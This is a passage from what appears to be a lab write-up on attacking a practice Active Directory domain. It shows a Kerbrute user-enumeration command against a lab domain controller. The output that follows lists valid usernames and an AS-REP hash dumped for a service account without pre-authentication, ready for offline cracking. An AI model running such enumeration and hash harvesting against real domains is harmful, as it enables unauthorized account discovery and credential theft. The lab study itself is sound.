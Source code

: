 ## Users enumeration

In this phase, I conducted domain user enumeration by leveraging `Kerbrute` a powerful and efficient tool designed to interact with the Kerberos authentication protocol. This technique involves sending authentication requests for a list of potential usernames and analyzing the responses to determine which accounts are valid within the domain. Successful identification of valid usernames is a critical step in attacking Active Directory environments, often laying the groundwork for subsequent brute-force attacks or ticket-based enumeration.


```php
kerbrute userenum --domain spookysec.local --dc 10.10.0.172 userlist.txt
```

```php
kerbrute userenum --domain spookysec.local --dc 10.10.0.172 userlist.txt                                             ✔  at 10:28:34   
                                                                                                                                                                                              
    __             __               __                                                                                                                                                        
   / /_____  _____/ /_  _______  __/ /____                                                                                                                                                    
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \                                                                                                                                                   
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/                                                                                                                                                   
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                                                                                                                                    
                                                                                                                                                                                              
Version: dev (9cfb81e) - 04/26/25 - Ronnie Flathers @ropnop                                                                                                                                   
                                                                                                                                                                                              
2025/04/26 10:29:10 >  Using KDC(s):                                                                                                                                                          
2025/04/26 10:29:10 >   10.10.0.172:88                                                                                                                                                        
                                                                                                                                                                                              
2025/04/26 10:29:11 >  [+] VALID USERNAME:       james@spookysec.local                                                                                                                        
2025/04/26 10:29:17 >  [+] svc-admin has no pre auth required. Dumping hash to crack offline:                                                                                                 
$krb5asrep$18$svc-admin@SPOOKYSEC.LOCAL:41bca513e58f6a5775cf004add08f045$1cafd30110f2a258f28f1fdf2220ee70ccd98fc36631615cac6b64ca459a7d6889c4d49937c9e81ca809cd6f343ebd8ed9455795cfeb24fbb5f7c
30ad6840b21abb9c42726c83bf09ea312df8dc0a8a2d83c5826378319517ecef96809765aaff7d4b9bff02052f362fe2a0598905d48270c72ae039ee13737f6fe0a40634a06be3c711c8827e56b0d204aceb513ebcc2dea84bbf862ed10d5c33d68ee8592805ec97ba315c0c458433bd2defdca822692948ec621852e9fef1cc72c440133b64f294a636988b5a6d5a4b8c264101900ceddba34747248e2356ce5509f327c98794227e472aed5e0721593d4c2ea9fbccb9be91d38dba80a7e3d32e54cb47d6ceee2a2aff87b
2025/04/26 10:29:17 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2025/04/26 10:29:25 >  [+] VALID USERNAME:       James@spookysec.local
```

## Created the users file with valid users

